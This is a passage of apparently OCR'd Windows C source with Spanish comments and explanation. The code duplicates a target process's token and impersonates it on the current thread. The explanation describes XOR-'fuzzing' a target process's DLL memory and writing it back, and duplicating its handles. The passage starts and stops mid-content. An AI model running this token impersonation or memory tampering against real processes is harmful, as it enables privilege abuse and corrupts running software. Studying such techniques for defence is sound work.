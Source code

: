 ```c 

    HANDLE hToken;
    if (OpenProcessToken(hProcess, TOKEN_QUERY | TOKEN_DUPLICATE, &hToken)) {
        printf("Token abierto: %p\n", hToken);

        HANDLE hDupToken;
        if (DuplicateToken(hToken, SecurityImpersonation, &hDupToken)) {
            printf("Token duplicado: %p\n", hDupToken);

            // Impersonar el token para realizar operaciones bajo ese contexto de seguridad
            if (SetThreadToken(NULL, hDupToken)) {
                printf("Se ha establecido el token para el hilo actual.\n");
            } else {
                printf("No se pudo establecer el token, error: %lu\n", GetLastError());
            }

            CloseHandle(hDupToken);
        } else {
            printf("No se pudo duplicar el token, error: %lu\n", GetLastError());
        }

        CloseHandle(hToken);
    } else {
        printf("No se pudo abrir el token, error: %lu\n", GetLastError());
    }

    CloseHandle(hProcess);
}

int main() {
    DWORD pid = 1234; // Reemplazar con el PID del proceso objetivo

    // Enumerar y duplicar handles, y fuzzear la memoria de la DLL
    EnumerateHandlesAndDuplicate(pid);

    // Extraer y manipular tokens
    ExtractAndImpersonateToken(pid);

    return 0;
}
```


Explicación del Código
FuzzDLLMemory:

Utiliza VirtualQueryEx para obtener información sobre las regiones de memoria de la DLL.
Lee la memoria usando ReadProcessMemory y aplica una operación simple (XOR) para el fuzzing.
Escribe los datos de vuelta con WriteProcessMemory.
EnumerateHandlesAndDuplicate:

Abre el proceso y enumera los módulos asociados mediante EnumProcessModules.
Intenta duplicar los handles para los módulos usando DuplicateHandle.
También llama a FuzzDLLMemory para cada módulo, para realizar fuzzing.
ExtractAndImpersonateToken:
